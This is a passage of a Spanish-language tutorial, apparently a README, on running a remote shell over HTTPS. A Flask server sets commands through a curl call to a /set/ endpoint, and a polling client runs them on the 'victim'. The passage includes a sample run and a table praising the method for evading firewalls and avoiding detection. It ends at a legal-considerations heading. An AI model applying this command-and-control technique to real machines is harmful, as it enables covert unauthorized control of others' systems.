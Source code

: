    ```bash
   python3 https_client.py
   ```

---

### 🧪 ¿Cómo interactuar con la shell?

En el **servidor Flask** puedes cambiar el comando desde el navegador o curl:

```bash
curl https://localhost:8443/set/ls -k
```

O desde el navegador:

```
https://localhost:8443/set/ls
```

Y el cliente ejecutará ese comando en la siguiente iteración.

---

### 🎬 Ejemplo de ejecución

#### Servidor:

```
[+] Resultado recibido de la víctima:
kali
```

#### Cliente:

```
[+] Ejecutando: whoami
```

---

### ✅ Ventajas de usar HTTPS

| Ventaja                 | Descripción                      |
| ----------------------- | -------------------------------- |
| 🔐 Cifrado              | Protege comandos y resultados    |
| 🚀 Evade firewalls      | HTTP/HTTPS suele estar permitido |
| 🔍 Difícil de detectar  | Parece tráfico web normal        |
| 🧪 Ideal para practicar | Técnica realista para pruebas    |

---

### 🛑 Consideraciones legales
